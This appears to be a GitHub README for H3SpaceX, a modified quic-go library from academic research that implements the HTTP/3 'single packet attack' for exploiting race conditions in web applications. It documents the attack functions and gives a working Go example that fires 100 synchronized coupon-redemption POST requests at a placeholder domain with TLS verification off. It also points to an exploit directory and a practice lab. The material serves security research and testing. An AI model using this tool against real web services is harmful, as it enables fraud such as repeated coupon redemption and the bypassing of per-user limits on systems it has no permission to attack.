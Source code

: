 # H3SpaceX
H3SpaceX library is manipulated version of [quic-go](https://github.com/quic-go/quic-go) to 
enable the Single Packet Attack (Last Frame Synchronization) in HTTP/3 (QUIC). 
This library was part of an academic research with title of **Exploiting Race Conditions in Web Applications with HTTP/3**.

## Library Usage (how to exploit last frame synchronization - also known as single packet attack on HTTP/3)
There are two methods for exploiting last frame synchronization:

- Function `SendRequestsWithLastFrameSynchronizationMethod`:
- This function is for requests `which have body`!
- Function parameters:
  - first param gets QUIC connection (type: quic.Connection)
  - second param gets an array of requests which need to be sent.
  - third param is for number of bytes which needs to be kept from end of the DATA frame. (at least & best 1)
  - fourth param is for number of milliseconds which library waits before sending last DATA frames
  - fifth param is for setting or unsetting Content-Length header. If false, the Content-Header will not be set, unless you set it directly in requests headers
- Function return:
  - a map of requests with value of their response
```go
func SendRequestsWithLastFrameSynchronizationMethod(quicConn quic.Connection,
	allRequests []*http.Request,
	lastByteNum int,
	sleepMillisecondsBeforeSendingLastByte int,
	setContentLength bool,
) map[*http.Request]*http.Response
```

- Function `SendRequestsWithoutBodyWithinASinglePacketAttack`:
- This function is for requests `which do *not* have body`!
- Function parameters:
    - first param gets QUIC connection (type: quic.Connection)
    - second param gets an array of requests which need to be sent.
- Function return:
    - a map of requests with value of their response
```go
func SendRequestsWithoutBodyWithinASinglePacketAttack(quicConn quic.Connection,
	allRequests []*http.Request,
) map[*http.Request]*http.Response
```

### Installation

    go mod init PROJECT_NAME
    go get github.com/nxenon/h3spacex
    Write the code (exploit) then run following command (to include all dependencies in go.mod):
    go mod tidy


### Steps to Call Functions
- Import libraries
- Create TLS config 
- Create QUIC config
- create a list of requests (use http3.GetRequestObject function) and append them into requests list
- Establish QUIC connection
- Call http3.SendRequestsWithLastFrameSynchronizationMethod `or` http3.SendGetNoBodyRequestsWithSinglePacketAttackMethod methods based on your needs
```go
package main

import (
	"crypto/tls"
	"fmt"
	"strings"

	"context"
	"github.com/nxenon/h3spacex"
	"github.com/nxenon/h3spacex/http3"
	"io"
	"net/http"
	"os"
	"time"
)

func main() {
	tlsConf := &tls.Config{
		InsecureSkipVerify: true,
		NextProtos:         []string{http3.NextProtoH3},
	}

	quicConf := &quic.Config{
		MaxIdleTimeout:  10 * time.Second,
		KeepAlivePeriod: 10 * time.Millisecond,
	}

	var allRequests []*http.Request

	headers := map[string]string{
		"Cookie":       "x=y",
		"Content-Type": "application/json", // sample
	}

	reqBody := "{\"couponValue\":\"Coupon1\"}"

	for i := 0; i < 100; i++ { // 100 requests
		req, err2 := http3.GetRequestObject("https://DOMAIN.COM/api/cart/apply_coupon", "POST", headers, []byte(reqBody))
		if err2 != nil {
			fmt.Println("Error creating request: ", err2)
			continue
		}
		allRequests = append(allRequests, &req)
	}

	dialAddress := "IP:PORT" // destination IP address and UDP port
	ctx := context.Background()
	quicConn, err := quic.DialAddr(ctx, dialAddress, tlsConf, quicConf)
	if err != nil {
		fmt.Printf("Error Connecting to %s. Erorr: %s", dialAddress, err)
		os.Exit(1)
	}

	allResponses := http3.SendRequestsWithLastFrameSynchronizationMethod(quicConn, allRequests, 1, 150, true)

	for req, res := range allResponses {
		fmt.Printf("for request to %s\n", req.URL)
		fmt.Println("+---Headers---+")
		fmt.Printf("Status Code: %d\n", res.StatusCode)
		for key, value := range res.Header {
			fmt.Printf("%s: %s\n", key, value[0])
		}
		fmt.Println("+---Body---+")
		body, err3 := io.ReadAll(res.Body)
		if err3 != nil {
			fmt.Println("Error reading response body:", err3)
			continue
		}
		fmt.Println(string(body))

	}
}

```


## Exploits Sample
See [Exploit](./exploit) Directory. It contains:
- [Last Frame Synchronization for Requests with a Body](exploit/README.md#last-frame-synchronization-for-requests-with-a-body)
- [Last Frame Synchronization for Requests without Body (GET requests within a single packet)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-within-a-single-packet)
- [Last Frame Synchronization for Requests without Body (GET requests with FAKE DATA Frames)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-with-fake-data-frames)

## Lab (HTTP/2/3 Web Application)
For testing exploits see [Rc-H3-WebApp](https://github.com/nxenon/rc-h3-webapp/) repo.

## References
- [quic-go](https://github.com/quic-go/quic-go) as base library
